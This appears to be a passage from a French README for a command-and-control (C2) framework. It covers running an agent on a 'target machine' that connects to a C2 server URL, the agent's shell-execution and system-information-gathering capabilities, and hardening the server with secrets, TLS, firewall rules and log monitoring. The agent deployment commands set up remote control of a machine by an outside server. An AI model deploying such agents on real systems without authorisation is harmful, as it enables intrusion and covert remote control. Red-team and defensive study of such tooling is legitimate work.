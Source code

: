 ### Déploiement Manuel
```bash
# Sur la machine cible
python3 c2_agent.py --server https://votre-c2.com
```

### Déploiement Automatisé
```bash
# Mode test avec commandes auto
python3 c2_agent.py --server https://votre-c2.com --test
```

### Capacités de l'Agent
- **Commandes Shell** - Exécution sécurisée
- **Navigation** - Changement de répertoire
- **Info Système** - Collecte d'informations
- **Sécurité** - Filtrage des commandes dangereuses
- **Chiffrement** - Communications sécurisées

## 🔒 Sécurité & Bonnes Pratiques

### Configuration Sécurisée
```bash
# Variables d'environnement obligatoires
export SECRET_KEY="votre-cle-secrete-complexe"
export JWT_SECRET_KEY="votre-jwt-secret"
export DEFAULT_ADMIN_PASSWORD="MotDePasseComplexe123!"

# Configuration SSL/TLS
certbot --nginx -d votre-domaine.com
```

### Firewall & Protection
```bash
# Ports nécessaires uniquement
ufw allow 22/tcp    # SSH
ufw allow 80/tcp    # HTTP (redirection)
ufw allow 443/tcp   # HTTPS
ufw allow 5000/tcp  # C2 Server (si pas de proxy)

# Fail2ban pour bruteforce
systemctl enable fail2ban
```

### Logs & Monitoring
```bash
# Logs du serveur C2
journalctl -u c2-server -f

# Logs d'accès web
tail -f /var/log/nginx/c2-server-access.log

# Monitoring des performances
./monitor.sh
```
